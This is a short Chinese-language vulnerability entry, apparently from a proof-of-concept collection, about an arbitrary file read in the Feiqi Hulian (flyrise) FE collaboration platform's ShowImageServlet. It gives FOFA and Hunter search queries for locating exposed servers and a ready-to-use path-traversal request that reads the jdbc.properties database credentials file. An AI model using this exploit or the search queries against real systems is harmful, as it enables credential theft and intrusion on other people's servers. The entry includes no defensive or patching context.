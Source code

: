 # 飞企互联 FE业务协作平台 ShowImageServlet 任意文件读取漏洞

## 网络测绘

fofa: app="FE-协作平台 || "flyrise.stopBackspace.js"

hunter: app.name="飞企互联 FE"

## POC / EXP

```
/servlet/ShowImageServlet?imagePath=../web/fe.war/WEB-INF/classes/jdbc.properties&print
```